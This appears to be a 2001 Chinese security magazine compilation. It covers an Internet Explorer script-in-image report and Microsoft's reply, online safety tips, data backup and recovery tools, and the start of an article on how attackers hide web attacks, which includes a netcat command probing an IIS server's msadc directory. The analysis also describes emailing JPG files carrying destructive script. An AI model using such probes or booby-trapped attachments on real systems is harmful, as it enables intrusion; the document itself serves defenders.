我很遗憾我们在理解和定义上有些误解。恐怕我的英文不够好。所以不能精确地表达我的观点和理解你的意思。不知道你们有没有懂中文的人可以交流。我相信这样会事倍功半。

crazybird
26/7/01

2001.7.26 我把这个漏洞公布在了 www.securityfocus.com 的 BUGtraq 上。这是全球最有影响力的漏洞公布板。我没法让微软像一个个人用户低头。由于篇幅所限，这里我就不把他们对这个漏洞的看法贴出来了。具体您可以到刚才给出的地址去查看。我的信箱每天都有二十几封热情的漏洞询问及讨论者给我来信。如果您需要，可以来信向我询问。只要这对您有帮助。

## 回复

Hi All -

我们在 7 月 20 日收到报告后对此进行了证实，并将我们的发现回复了作者。简单地说，这里的一切并没有新的发展。然后，由于报告中涉及到其它几个不同的问题，很难说清怎么会这样。

- 以下列出的 javascript 的确利用了一个漏洞，但这个漏洞是早已被发现，并在 2000 年 10 月就发布了补丁。关于这个漏洞的安全公告是 Microsoft Security Bulletin MS00-075
```
http://www.microsoft.com/technet/security/bulletin/MS00-075.asp
```
- 如果.txt .jpg 或者其它文件包含脚本的话，将会自动用 IE 打开一个新的页面来浏览文件。但是脚本只在网页范围运行，因此对脚本的限制和一般网页中的脚本运行的限制是一样的。这就是说，在文件中植入脚本对无法给予攻击者任何更多的能力。
- 如果用户下载了.txt .jpg 或其它什么文件到本地，并打开它，这会有两种情况，要看是什么文件类型。大多数文件不是默认用 IE 打开的，比如.txt 文件默认用记事本打开。这种情况下脚本不会被运行。其它文件，比如基本的图片文件，它们确实是用 IE 打开。但是在本地运行时，图片被直接用 IE 的图片处理机制处理，跳过了脚本的运行。脚本依然没有被运行。
- email 中附件的处理方法是和下载到本地的文件一样的。无论如何脚本依然无法在本地运行。

希望这个解释说明了一切。

Scott Culp
Security Program Manager
Microsoft Security Response Center

## 语气全变了！

不想再说什么，作为一个普通的网络安全工作者。我们需要的是讨论技术！而不是在无意义的事上浪费时间。另外，在这件事上使我联想到，如果中国的软件行业有一天也会出现这样的事情，也许是件好事。因为这样才表示国人也重视自己的民族软件了，那一天才会真的是中国软件业的春天......期盼着这一天的到来。

最后：在微软拿出补丁前，有一些暂时的防御办法：

- 1）下载杀毒软件！已有的及时更新病毒库。将系统里比较危险的一些程序改名，比如 format.com、deltree.exe 等。改成容易记忆的就行，比如 format.com 可以改成 format_0.com 等。
- 2）尽量不要去访问那些所谓的“黑客”网站。很多时候，你想从那学习攻击。实际上，您正在被攻击！
- 3）如果碰到非去不可但您又怀疑有危险的站点。请先访问 http://crazybird.51.net/look.htm 站点。您也可以把上面的源文件复制下来。另存为.htm 文件。本地运行。但我不能保证您是否能看出来源文件是否有危险！访问网页，任何类型的网页，打开时如果出现“页面含有不安全的 ActiveX”等信息时请注意，最好不要运行该 ActiveX 控件。同样不能保证任何恶意攻击文件都会给出这类警告！
- 4）邮件附件不要双击直接打开！请注意！是任何类型的附件都不要直接打开！请先保存到文件夹内，再用病毒库为最新的杀毒程序扫一遍。
- 5）及时更新系统补丁。

## 微软你的“漏洞”其实是这样

小编寄语：自从上期“黑客防线”刊登《与微软的第一次接触竟然会这样》这篇文章以来，引起的很大的反响，很多读者朋友写信反映看过这篇文章感触很深，还有朋友撰文写出自己的看法和感受，下文就是其中一篇。我们十分欢迎广大读者能写信说出读“黑客防线”的感想或针对某篇文章写出自己不同的看法，您的文章将会在读编互动或正文中刊登。

文/景海亮

当看了上期“黑客防线”Crazybird 给我们带来的《接触》（为了方便起见，我们用《接触》来代替《与微软的第一次接触竟然会这样》）一文后，我当时的心情是无法用言语表露的，我深深被作者那份自强的激情与探索技术的谨慎所感动。而感动过后，我开始思索其中技术的内涵，并作了一些尝试性的代码测试，也对微软的答复加以了验证。从中体会到了一些 Crazybird 没有提到的问题。为了让读者能够更加了解其中的内涵，我对《接触》加了一些补充和自己的心得体会。

### 问题一：为什么 IE 会对包含纯 HTML/JavaScript 代码的文件进行无条件的执行处理

想说明这个问题，就必须对 Internet Explorer 的工作原理进行解剖。我们知道在现有 3W 网（World Wide Web）的基础上进行数据传输交换以及声音、图像的传输，是一件相当耗时的事情。而 IE 在 3W 网中是采用了超文本（英文：Hypertext，是一种包含特殊标记的纯文本文件）的表达方式，把有限的带宽和无限的信息这个矛盾调和得恰到好处。

所谓的超文本的表达方式，就是将集合在此信息及文件通过网络服务器加以储存的，而我们阅读这个信息，便是通过 Internet Explorer 或 Netscape 等浏览器读取的。但我们所看到的并不是干巴巴的纯文本文件，而是五彩缤纷、图文并茂的页面，把死气沉沉的纯文本内容转化为网页的魔术师就是 HTML（Hypertext Markup Language）。它是一种超文本文件的标记语言，所谓标记语言，就是让浏览器知道该以何种方式来显示原始文件的内容。我给大家举一个例子来说明。

例子：假如我们规定<>中的内容用华文彩云表示。（）中的内容用华文行楷来表示。不加符号的用默认表达方式。

- 文本内容： （西门吹雪）vs <劲刀狂舞>
- 显示内容： 西门吹雪 vs 劲刀狂舞

这就是我们自己定义的一种标记语言，而大家可以看到，HTML 这种标记语言的文件中是含有大量的标记语句的，它正是通过集成于 IE 内部的 HTML 规则，才呈现出绚丽多彩的内容。我们注意到标记语言只是对标记的规则加以一定的约束，为了实现在 3W 上的通用，对它的存储方式并没有限制，也就是说 16 进制数据与 10 进制数据必须进行转换才能读取。而 HTML 则不用。

HTML 仅仅规定了如何标记，无论是怎样的格式，怎样的存储方式，只要它存在标记，那么就符合 HTML 的执行法规并加以执行。虽然 HTML 是使用 *.HTML/*.HTM 的方式来让我们知道这是 HTML 文件，可它同样能用 NOTEPAD、写字版等通用工具打开，使我们可以看到标记，并加以任何的修改。同样让我们想想 IE，它在 3W 网上的通用性使它可以打开多种不同格式存储的文件。其中的文件只要存在标记,IE 的内部原理就把它进行了 HTML 的标记解析。

这就是为什么 IE 会对包含纯 HTML/JavaScript 代码的文件进行无条件的执行处理的原因，也就是我们的 Crazybird 所遇到的问题的形成所在。

### 问题二：我们所追究的“漏洞”到底是什么？

我们现在已经知道了 IE 会出现上述问题的原因了，现在也是该正式的审视一下这个所谓的漏洞到底是什么？

我对 Crazybird 在《接触》一文中所提到的验证方法进行了操作，并且也对照微软的解释进行了客观的验证。这验证包括对：

- http://member.netease.com/~zds/ie_bug.jpg、
- http://crazybird.51.net/look.aaa、
- http://crazybird.51.net/look.txt、
- http://crazybird.51.net/test.txt、
- http://crazybird.51.net/look.htm 的访问以及对 http://member.netease.com/~zds/ie_bug.jpg 的源程序的考究。并通过多种方式实现《接触》中更改标题的尝试。可是遗憾的是除了在连接上对 http://member.netease.com/~zds/ie_bug.jpg（其实 http://member.netease.com/~zds/ie_bug.jpg 的访问也是无效的，但我自己通过其他服务器得到了等效的访问）的验证是有效的,其他的访问都没有成功。而微软所说的页面含有不安全的 ActiveX 确确实实是把 IE 的安全等级设置为高级时才能奏效。

这样我们就不得不承认只有在 IE 打开带有有害 HTML/JavaScript 代码时确实把有害代码加以执行了。这样就说明了这个危险成分确确实实可以损害到我们的电脑。具体做法可以把一封含有破坏代码的 JPG 图片放置在 MAIL 的附件中,而收件用户是使用 IE 将这个 JPG 图像文件打开。那么他将受到攻击，而防范措施也很简单，就是把 IE 的安全等级提高或者关闭 ActiveX。而在微软的官方说明中确实已经早已提到了这类型攻击的可能性，并指出怎样有效的防范这种攻击。

那么,这个所谓的漏洞真的是 IE 的漏洞吗？可 IE 可以经过简单的调节而避免攻击。我们试想一群伪黑客用简单的 PING 来榨取服务器的资源，使它 DOWN 机，那么这个被 PING 的服务器存在的是漏洞吗？这是一个让人有些迷惑的问题。

### 问题三：弥补 IE 对纯 HTML/JavaScript 代码文件的执行，是相当困难的。

最后，我想说说关于 IE 如何弥补的问题。正是标记语言的工作原理决定了弥补这个问题的困难性。我想微软的工程师不会把 HTML 文件的存储方式加以特殊的滤码处理。毕竟这样下去，就导致滤码总是如杀毒软件永远处于新病毒一样的被动。而把通用的 HTML 加以不通用化，那么即将改变的不仅仅是 IE 以及 HTML。更多的改变将是来自 3W 网的根本制定中。这也是不可能采取的措施之一，解决这个问题需要克服的困难确实太多太多了，微软自己自然更清楚，这是一个非常困难的问题。改变它需要付出的代价会很大。但就对 JPG 文件含有破坏成分的代码解决起来，却异常的简单。微软的工程师可以仅让 IE 只显示 JPG 文件，不执行其中代码的操作来进行限制。可这件事情的重点却不仅仅是在一个 JPG 文件，更多值得我们修正和正视的问题还远远在这后面呢！

## 教你几招网上“防身术”


文/周国卿

现在上网总是让人不放心，上了宽带网后就更是防不胜防了，垃圾邮件、病毒，还有 ICQ 上陌生怪客的恶意骚扰、出言不逊，实在是让人防不胜防。怎么办呢？这里就教你一点摆脱魔掌的必备绝招。谁说我们只能当“无行为能力”的受害者？只要花上短短的十分钟，看完这篇绝技，你就能给自己开出一片清静的网上绿地，杜绝“狗仔队”的骚扰，让你从此自在地行天下……。

### “网上狗仔队”

什么？网上也有狗仔队？没错，而且他们还随时潜伏在你身边。

网上有许多匿名的狗仔队，专事偷窥、盗窃个人隐私的不齿勾当，他们有时还随意通过 ICQ 对素昧平生的你出言不逊。只要你上网，他们就有本事侵入你的生活，“无孔不入”和“紧逼盯人”是他们的共同特征。难道我们就只能忍受这些骚扰？

先跟我一块儿辨认网络狗仔队的各种“分身”危险指数，加强一下网络安全的基本观念再说。如果你已经是受害者，就赶紧学习重点必杀术，跟我一块儿打击网络狗仔队！

- 1. ICQ 怪客
危险指数：两颗骷髅头

不经你同意就突然将你加入自己的 ICQ，不但出言不逊，甚至还来口头性骚扰；不然就利用你的 ICQ 得知你的 IP 地址，并侵入你的电脑。

预防措施：事先设置 ICQ 认证，陌生人想加入你的名单时，必须经由你本人同意。另外，记得将 ICQ 的 IP 地址设置为隐藏，免得黑客通过网络侵入你的电脑。

必杀招数：可将 ICQ 怪客设置为忽略名单，这样，他发出的任何 ICQ 你都不会收到，图个眼不见为净。还可用个人防火墙软件监督网上来客，避免自己的电脑遭黑客入侵。

- 2. E-Mail 不速之客
危险指数：三颗骷髅头

我们都知道，那些永远砍不完的广告垃圾信，只需换个名字就又是“一条好汉”。不但浪费你收信的带宽，也糟蹋硬盘空间，甚至会招惹来莫名其妙的病毒。

预防措施：填写网络资料时，不要老老实实地填上平常用的私人电子信箱，这样容易招来广告信。建议申请一个专门登录资料用的 Web 信箱，把垃圾信交给网站服务器 超过容量限制，这些垃圾信就寄不进来了 来处理吧！

必杀招数：如果你有 ICQ，可以利用 ICQ“即时邮件通知”功能来预览服务器里的信件，在还未收信前，就直接删除其中的垃圾邮件。不然，你也可以使用 Outlook Express 中设置“垃圾邮件”的功能，将寄件者设置为拒绝往来户。再无效，还可用 AvirMail 这个收信前置软件，帮你筛选掉邮件服务器上的广告信。

- 3. 网络资料小偷
危险指数：四颗骷髅头

如果突然间收到大量的广告垃圾信，或发现信用卡、信用点 已经被盗刷，这时你才会意识到网络小偷的存在。他们专门拦截或窃取网上流通的私人资料，包括身份证号码、信用卡号，或私人的电子邮件信箱等。

预防措施：网上不能曝光重要的身份证号码，除非真有需要。而且，每隔一段时间最好更新你的网站密码，要采用不易被破解的大小写英文与数字混合的密码，千万不要一个密码用到底。E-Mail 当然也不能填写自己常用的信箱，建议另外申请一个平常不用的 E-Mail 专门用来登录资料。如要上网购物，最好挑选有 SSL 或 SET 网络安全认证的大型网站用信用卡、信用点消费，否则宁可采用邮局汇款。

必杀招数：切记，切记，小心预防胜过事后懊恼！

- 4. 主动出击型黑客
危险指数：五颗骷髅头

有些技术高超的电脑黑客好胜心极强，如果不小心得罪了他，或是有利可图，黑客就会主动出击，破解你的电脑来窃取资料或施放病毒。

预防措施：如果你的电脑 24 小时都挂在网上，就要小心这种黑客，有些人会通过 ICQ 或你上网的途径取得 IP 地址来入侵电脑。

必杀招数：可用个人防火墙之类的软件来防堵这种黑客的入侵。

- 5. 网络邻居偷窥狂
危险指数：四颗骷髅头

利用局域网上安全设置的漏洞侵入邻居的电脑，无论你是否乐意开放自己的隐私，他都看得一清二楚，说不定还会窃取公司的机密文件哩。

预防措施：如果同事间有共用电脑的习惯，记得将 ICQ 或个人文件设上密码，或在离座时打开屏幕保护程序的密码。非必要时绝不将自己电脑设置成共享，否则也要先设置复杂的密码供特定人士共享。但这种预防对技术高超的有心之人恐怕无效。

必杀招数：除了请公司的 MIS 加强局域网的安全措施外，也可以启动 Windows 内建的网络监控程序，或安装个人防火墙，以防止偷窥狂的觊觎。

## 摆脱 ICQ 怪客的魔掌

### ICQ 怪客的恶形恶状：

- 1. 未经同意就把你加入 ICQ 名单，经常 Q 些无聊的网页给你。
- 2. 明明你不想聊天，陌生的他却一直 Q 你，打扰上网时的清静。
- 3. 一开口就口出秽言骚扰，真能气死人！
- 4. 利用 ICQ 得知你的 IP，偷偷侵入你的电脑。

该如何直接拒绝这些怪客呢？方法是：

- 1. 将 ICQ 的联系清单打开，准备设置工作。然后将鼠标移至“ ICQ” 按钮上，按一下，接着点选“ Preferences”。
- 2. 准备提高 ICQ 的安全性及隐密性，点选窗口中“ Security & Privacy”，然后再选择“ General”，接着点选“ My authorization is required before users add me to their Contact List”。
- 3. 建立外界连线方式，那些没经过你认可的人就无法与你连线。选择窗口中的“ Direct Connection”。再点选“ Allow Direct Connection with any user upon your authorization ”。
- 4. 如果有不想联系的人，可在“ Ignore” 里建立黑名单，这样对方就再也无法与你联系了。选择窗口中的“ Ignore”，再点选“ Add To Ignore List”，搜索要被列入黑名单的使用者。
- 5. 搜索方式有四种，在这里我们用搜索 ICQ 号码来做示范。用鼠标选择“ ICQ #”。接着输入要搜索的 ICQ 号码。找到后，用鼠标点选他的号码或名称。
- 6. 搜索完的结果，电脑会通知你，已经将你选择的人加入了黑名单。然后按一“ OK ”。
- 7. 现在你看到“ 怪客” 在黑名单里了吧！黑名单里的人当然无法加入你的通讯录，也不能作怪了。最后按“ Apply” 结束。

## 用“ ICQ 即时信件通知” 功能拦截广告邮件

### E-Mail 不速之客的恶形恶状：

- 1. 一天到晚发送 AV 色情光盘的广告，标题下流，有碍观瞻。
- 2. 送一些根本不需要的客户名单，换个名字又卷土重来。
- 3. 替自己的网站拼命打广告，还假用好朋友的语气介绍。
- 4. 寄上一堆产品的目录图片，好不容易收完信后，才发现是促销广告。

道高一尺、魔高一丈，广告商利用变换寄件人的方式来规避你的拦阻，所以一场无法避免的拦截战就此展开。提前拦截及过滤邮件，就好像“ 来电显示” 一样，先查查是谁寄来的，再决定是否收取。有哪个软件能提供这种功能呢？近在眼前的 ICQ 就可以了，让我们看看怎么设置和使用吧：

- 1. 在 ICQ 提供的服务里，其实就有预告电子邮件的功能，只是很少人注意。
- 2. 然后选择输入电子邮件服务器的属性，一般人选择“ Pop3 1.0” 即可。先按“ ADD”，再选择“ Pop3 1.0”。
- 3. 输入自己电子邮件信箱的信息，包括服务器名称、帐号及密码，在右边栏内输入 （下转第 141 页）（上接第 143 页） 资料。输完后按“ Apply”。
- 4. 大功告成，重复执行第一个步骤，就可以看到检查邮件的画面了，可以先行预览邮件。先点选要预览的邮件，再按“ Preview ”。
- 5. 如果看到不想收的信，就直接按“ Delete” 删除。
- 6. 邮件在服务器内被删除，所以我们使用 Outlook Express 就不会再收到刚才删掉的信了，最后按“ Close” 离开。

先执行 ICQ，选择左下方“ services”，接着选择“ Email” 后再点选“ Check Incoming Email”。

一般来说，如果 E-Mail 地址是 me@166.chome.com 。那么“ me” 就是帐号，而“ 166.chome.com” 则是服务器名称，密码就是你收信时用的那组密码。

注意！中文内容可能会造成“ 主题” 或“ 内容” 出现乱码。此时只好查看发信人是不是自己的亲朋好友，再决定是否删除。通常垃圾信的寄件者都是用英文加数字编码，容易识别。

另外，很多人可能没有或不能使用 ICQ，没问题，应用软件 Avirmail 和 ICQ 一样，也可以通知预览邮件，并在接收到电脑前就把讨厌的垃圾信删除。下载网址：http://www.avirmail.com/，文件大小约 2.37MB，支持的操作系统为 Windows 95/98/Me/NT/2000。

还有一个就是很多人都在用的 Foxmail 了，它也可以在服务器里直接删除信件，这方面已有很多文章介绍，这里就不介绍了。

## 灾难数据的对策

编者按：我想对于一个从事计算机行业的人，最恼火的事情就是存储在硬盘里的数据损坏或丢失，不过，出现这类情况大可不必惊慌失措，冷静的经过合理的操作，是可以最大程度挽回损失的。

文/劲刀狂舞

计算机的硬盘中存有大量重要的数据。这些数据也许是很多天辛勤劳动的成果。有时候，由于操作失误删除掉某个重要的文件，或由于其他原因（如病毒，存储介质故障，黑客袭击等）造成的数据灾难性丢失，都是令人极为痛心的事情，下面就谈谈如何最大程度地避免出现类似情况以及出现问题后的紧急处理方法。

### 一、 备份篇

对重要的数据一定要及时进行备份。至少每周一次把重要的文件备份到软盘或其他介质上。我们不推荐发生了数据灾难后才进行处理工作。

微软的 Windows 向来以不稳定出名，不过 Gates 还是有自知之明的，Windows 中集成有备份工具。

Windows98：运行“ 程序→附件→系统工具” 可以找到备份工具。你可以把重要的东西备份到软盘，硬盘，磁碟机或者其他的介质中，而且可以选择适当的比例对文件进行压缩，以节省磁盘空间。不过这个工具不是默认安装的，您必须在安装系统时选择安装，如果您没有安装，可以在控制面板中选择“ 添加删除程序进行安装。 默认目录：C：\Program Files\Accessories\Backup。

Window2k：在 Win2k 下备份工具是默认安装的，它不仅提供了对于文件，文件夹，磁盘的备份工作，而且可以对于系统和系统状态进行备份（如图 1）。


图 1

在操作方面，Win2k 的备份工具提供了包括副本备份，每日备份，差异备份，增量备份和普通备份等多种形式。在执行方面，备份工具提供了手工备份，系统的计划任务进行备份和定时执行备份。使用相当地方便。

Windows Me：微软在 2000 年 10 月份发行了新的操作系统 Win Me，这个号称 Win9x 系统的终结者最适合家庭用户使用。备份工具犹如 Norton Ghost 般一样强大，它可以将系统备份到某一个状态，再借助还原工具进行还原操作。从此彻底地和重装系统告别（如图 2）。


图 2

计算机开机运行状态下，系统还原工具每隔 10 小时创建一个还原点。此外，以实际时间计算，系统还原每 24 小时也会创建一个还原点。如果您的计算机关机超过 24 小时，系统还原将在启动时创建一个还原点。您也可以手动创建还原点。

手动设置还原点的方法：

- 点击“开始”按钮。
- 鼠标指向“程序”/“附件”/“系统工具”，然后点击“系统还原”。
- 选择“创建一个还原点”，然后点击“下一步”。
- 在“还原点描述”框中键入还原点的名称，然后点击“下一步”。
- 点击“确定”。

在创建了还原点后，您可以很方便地让系统返回到还原点的状态。不用担心会丢失最新的文档或电子邮件,系统还原工具不会去修改个人文件。您还可以撤消系统还原工具对计算机所做的改变(如图 3)。


图 3

将计算机还原为原有设置的方法：

- 点击“开始”按钮。
- 鼠标指向“程序”/“附件”/“系统工具”,然后点击“系统还原”。
- 选择“将计算机还原至较早的时间”,然后单击“下一步”。
- 点击日历上的某一天,点击“还原点描述”,然后点击“下一步”。
- 确信关闭了所有文件和程序,然后点击“确定”关闭该对话框。
- 点击“下一步”。

系统将返回为原先的设置,时间也返回到原有的纬度,您又可以正常使用自己的电脑了!
以上是常见的 Windows 系统的备份,虽然以微软的技术实力完全可以做到有备无患了,但是真正的备份应该是多方面的,对于真正的数据灾难以上方法就远远不够了,于是就有了第三方的软件支持。例如:Norton Ghost 2001,Drive Image Pro 等,甚至某些主板制造厂商都提供了数据备份与恢复的功能。例如:捷波的恢复精灵就是其中的一种。

对于前者我们没有什么可以介绍的,各类杂志报纸介绍得都很详细。我们也不提倡这样做,因为用这类方法备份的缺点是耗用的时间长,备份所需要的空间资源大,一个 30GB 的硬盘如果要这样备份的话就只能装 15GB 的数据,另外 15GB 用来做备份空间,非常不方便。

所以真正的想做大量的备份最好还是使用恢复精灵这种技术的软件。恢复精灵只需要占用备份数据万分之五的空间就行了,速度快,备份和恢复都只需五秒。备份和恢复数据速度极快,即使在执行了“ format c: /u”命令后再进行读写操作,甚至是在用 fdisk 重新分区操作后也能安全恢复所有数据。

虽然恢复精灵是捷波公司出品的,不过只要你用的是 AWARD BIOS,一般都可以通过刷新 BIOS 的方法来实现。

因为是强力推荐,所以我们细致地说明改掉 BIOS 的方法。首先,你有一块非捷波的主板(仅限于同样采用 AWARD BIOS 的主板上); Award 公司的 BIOS 修改工具 CBROM,就是我们常常用来修改主板 logo 的那个工具; Gigabyte @BIOS 刷新工具,我们用这个可以在任何版本的 Windows 下刷新 BIOS (如图 4)。你的主板的 BIOS 文件在这里是 mybios.bin 捷波主板的 BIOS 在这里是 jiebo.bin。


图 4

开始时先使用 CBROM 将捷波主板 BIOS 中有关“恢复精灵”的程序分离出来,如我们下载的捷波主板 BIOS 的文件名为 jiebo.bin。

则执行：CBROM jiebo.bin /d

我们会看到很多的文件。上面的 ISA ROM 1 09800h 38.00K 092C8h 36.70K

STDE.DAT 就是我们需要提取出来的文件。提取 STDE.DAT 文件。

我们执行：CBROM jiebo.bin /isa extract

按两次回车后你就得到了一个 STDE.DAT 文件，看看你的文件夹里是不是多了一个 STDE.DAT 文件。你需要把这个文件刷到你自己的 BIOS 中去。

执行：CBROM mybios.bin /isa stde.dat

下面的工作需要保证你的 BIOS 空间里有足够的地方，40k 为最小，我们可以用 CBROM mybios.bin /d 命令察看，注意 Remain compress code space = 25865h 150.10K 这行，如果你的 BIOS 的剩余容量不足 40k 的话，那么只好放弃刷新。

刷新过程很简单，我们打开 Gigabyte @BIOS 工具，选择 Update New BIOS 选项，选取我们做好的 mybios.bin（如图 5）。


图 5

点击打开即可。

重新启动你的机器，你会在屏幕下方看见

> “ press Ctrl + R to enter Recovery Genius”。

按“ Ctrl + R”，就能进入恢复精灵了。使用很简单。不过如果你是使用 Windows 2000 系统需要到网上 download 一个补丁程序，才能更好地支持恢复精灵。

同样的方法，可把奔驰主板的恢复大师移植到自己的主板中去。两种程序使用的方法不同，恢复精灵是备份和恢复整个硬盘，恢复大师只可以备份 C:盘而不能备份其他盘。

以上我们介绍了备份硬盘资料的整个过程。为了保险起见，还是建议您不要将所有的备份的数据文件保存在同一个硬盘上。如果条件允许，最好把备份的文件存放到两块硬盘上或者 CD-R CD-RW 光盘、ZIP 等移动存储介质。

## 二、恢复篇

有时我们尽管使用了防火墙、杀毒软件，系统也及时地进行了备份操作，但数据还是丢失！这样我们不得不采取亡羊补牢的办法——恢复数据。

不过呢由于笔者的阅历尚浅，大型磁盘阵列柜等商业的大型数据恢复就不在此话题之内了。首先，如果发生了数据灾难我们不要惊慌，毕竟事实表明，一般性的数据是都可以进行恢复的。其次也是最重要的一件事，就是你不要向你要恢复文件的驱动器上再写任何文件。检查硬盘是否存在物理损坏。如果 CMOS 或 FDISK 不能识别硬盘，说明发生物理损坏，需请厂家维修硬盘。最后运行相应的恢复软件即可解决问题。

## 工具一：全球领先的灾难数据恢复工具 FinalData

FinalData 以其强大、快速的恢复功能和简便易用的操作界面成为 IT 专业人士的首选工具。而且 FinalData 支持 Linux 平台，也支持最常用的几个 UNIX 平台，比如 SUN 的 Solaris、IBM 的 AIX、HP 的 HP-UNIX。FinalData 分标准版、企业版、企业网络版几个级别，功能逐渐强大，免费版本是 finaldata for win98 试用版（如图 1）


当我们安装了 FinalData 后，就可以对磁盘进行扫描了（如图 2）。


高版本的 FinalData 软件可以通过 TCP/IP 网络协议对网络上的其他计算机上丢失的文件进行恢复，从而为整个网络上的数据文件提供保护（如图 3）。


下面简单地说说这个软件的使用方法和注意事项。

FinalData 可以修复删除了的文件（包括在回收站里清空的），可以恢复格式化删除的数据，不过 Low Format（低级格式化）除外。还可以恢复计算机无法识别的硬盘。甚至可以恢复软盘的数据。

对于前两者我们只要扫描整个硬盘的数据即可将您的宝贵数据找回来，对于无法识别的硬盘，可以将需要恢复数据的硬盘作为从属盘，连接到另一台运行 Windows 的计算机。运行 FinalData 在“文件”菜单中单击打开，选择“物理驱动器”。找到初始分区，恢复数据。如果找不到初始分区，选择 Find Format 可找到初始格式，然后进行恢复。恢复软盘的过程则不是很轻松，只能恢复快速格式化的数据，如果对软盘进行常规格式化，则无法恢复。这是因为格式化类型不同，取决于每种格式化的程序。一般来说，美国、韩国使用的 DOS 或 Windows 基本格式化程序不删除实际数据；而日本 Windows 格式化程序或其他格式化程序在常规方式下，会删除实际数据，因此无法恢复。当运行 FinalData 访问软盘时，如果出现信息“Sector 0 is not read”，说明软盘受到物理损坏，应咨询厂家。恢复方法和前两者一样。

## 工具二：EasyRecovery 5.0 for NTFS

我们在 win2k 中认识了 NTFS 格式的文件，这种文件具有更安全的特性，不过兼容性很差，很多工具都无法识别这种格式的文件系统。当数据发生了问题，EasyRecovery 5.0 for NTFS 可以为我们完美地解决一切。

启动电脑，安装运行 EasyRecovery 5.0 for NTFS，安装后（如图 4）


图 4

点击下一步，该软件扫描您的分区状况，例如笔者的硬盘是 IBM 腾龙 2 代的硬盘，即被该软件发现，而且每一个区的情况都表示了出来（如图 5）。


图 5

右面可以看出来 EasyRecovery 5.0 for NTFS 支持的分区格式 FAT12、FAT16、FAT32、NTFS，和 UnKnown 等格式和未知硬盘状况。笔者的硬盘是块好的硬盘，每一个区都是 NTFS 的也显示出来。如果您的分区表毁坏或者格式化了，都可以辨认出来。我们选择一个要恢复的区域点击下一步，出现的界面中显示了 C:区扇面的起始位置。我们不必要配置就可以直接点击 Next 了。

图 6 中是选择您要恢复文件类型，选择一个适当类型。当我们选择 RAM 时软件将按文件的扩展名扫描磁盘上的文件，我们这里选择 RAM 点击 Next（如图 7）


图 6


图 7


该软件在笔者的计算机 C: 驱里找到了如图的几个文件，选择我们要恢复的文件和要存放的路径点击下一步即可。

如果您的 NT (2K) 系统根本无法启动，EasyRecovery 5.0 for NTFS 也为您提供了一个用软盘恢复的方案，我们只要制作一个启动软盘即可完成软件的所有功能。

EasyRecovery 5.0 for NTFS 为我们提供了很好的恢复 NTFS 格式的功能，这是很多软件不可比拟的。

## 工具三：Revival 和 RecoverNT

Revival 相对 R4A 来说是一个适用范围更广的工具，不仅可以恢复软盘、硬盘上被误删的文件，还支持恢复被快速格式化的硬盘上的文件。支持 WIN95/98/NT4.0，兼容 FAT、FAT32 及 NTFS。

而 RecoverNT 则是专用在 WIN95/98/NT 下恢复误删除的文件和子目录的工具，也可以恢复被 Format 和 Fdisk 的磁盘，Recover NT 支持 TCP/IP 网络，甚至可以恢复局域网中的客户机上的文件。

Revival 的操作过程和 RecoverNT 大同小异，现以 RecoverNT 为例。要恢复被删除的文件，首先选择驱动器，让 RecoverNT 扫描，点击 Open 出现 Select Drive（选定驱动器）对话框，选择好磁盘后，开始扫描。在 RecoverNT 中允许将扫描结果显示为 Basic Root Dir（基本根目录）、Searched Root Dir（被搜索出的根目录）、Garbage Dir（已删除目录）、Total Dir（全部目录）、All Files（所有文件，只适用于 NTFS），你可以根据自己的需要选择显示方式。在列出所有的文件后，你会发现在 RecoverNT 中出现的图标种类要比 R4A 中要丰富的多，掌握这些图标的含义，能有助于充分利用 RecoverNT。用鼠标指向这些图标时，将会出现：

- 1. Original Root Directory 原始根目录；
- 2. Normal Directory 普通目录（即原始根目录的子目录）；
- 3. Garbage Root Directory 已删除的根目录；
- 4. Garbage Directory 已删除的目录（扫描磁盘后被找到的已删除目录，假如原始目录名字不能被识别，将用 # 簇串来显示）；
- 5. Renamed Garbage Directory 更改名称的已删除目录；
- 6. Analyzed Garbage Directory 被分析的已删除目录（扫描磁盘后被找到的已删除目录，假如原始目录名字被识别，将用此图标标记）；
- 7. File 可用文件；
- 8. Error File 错误文件；
- 9. Warning File 警告文件；
- 10. Deleted File 已删除的文件；
- 11. Recoverable File 可恢复的文件；
- 12. Saved File 被保存的文件。

先根据实际情况使用这些图标按钮的功能，找到自己需要恢复的文件，然后点击右键，出现三个选项：View as Hex（以 16 进制格式查看）、View as Text（以文本格式查看，限制在 32768 个字节内）、Save（保存）。通常可选择保存来进行文件的恢复，在出现的保存界面中选择目标文件夹，点击确定后，系统即自动将文件恢复并保存到你指定的这个目录里。

总结：恢复的软件还有很多，例如：Tiramisu、Norton Utilities、国产软件 diskman 等。总体来讲大同小异。以上只是我在做文件恢复工作时的一点心得，写出来和大家分享。数据恢复是件很困难的事情，在日常的工作中，还是要加强备份的意识，防范于未然嘛！最后建议大家，我们用的还都是国外的软件，国内软件在这方面做得就不够好。我们这些后起之辈要加油哦！


编者按：咱们《黑客防线》已经不止一次刊登过关于黑客隐藏攻击痕迹以及网管如何及时发觉服务器遭受入侵的方法，可见这对正邪两方都极其重要。可以这么说，一个好的黑客完全可以胜任网管的工作，一个优秀的网管，也许本身就是一名黑客。

文/无用君（Holey Project）

黑客并不只是一门心思地钻研怎么入侵服务器，他们同样具有高超的手段来掩饰他们的攻击。老练的攻击者会使用多种技巧来掩饰他们的行为，这也是我们这篇文章里要调查的。所以我们，也就是系统管理员，可以更好地准备去发现并回应他们。

在这一篇文章里，我们将证明一些黑客所使用的用来避免被发觉的技巧，并且找到一些他们遗留下来的证据。

## 测试环境

我们的测试环境是使用了两种最常见的网站服务器，Apache 和微软的互连网信息服务器 IIS。我们在 Red Hat Linux 上运行了 Apache 1.3.9 并且在 Windows NT 4.0 上运行着 IIS 4.0。除此之外，两个服务器同时有正规版本和 SSL-enabled 版本，所以我们可以同时测试攻击加密服务器和未加密服务器。

## 十六进制编码

改变 URL 请求是最简单的掩饰攻击的方法之一。作为网络管理员，我们一般搜索我们的日志文件来检查某些片段，或者收集原文字符。我们在日志资源里查找一些符合已知的漏洞的请求。例如，当我们在我们的 IIS 日志里看见以下这些东西时，我们知道有些人是在寻找在 IIS 里的 MDAC 远程漏洞

06 45 25 10.0.2.79 GET /msadc/ 302

为了来看看入侵者如何尝试取得匹配的漏洞，让我们从入侵者的角度来分析。确定这台主机上是否有 msadc 目录存在，一个入侵者也许会输入以下的命令：

```
root@localhost /root # nc - n 10.0.2.55 80
```

```
GET /msadc HTTP/1.0
```

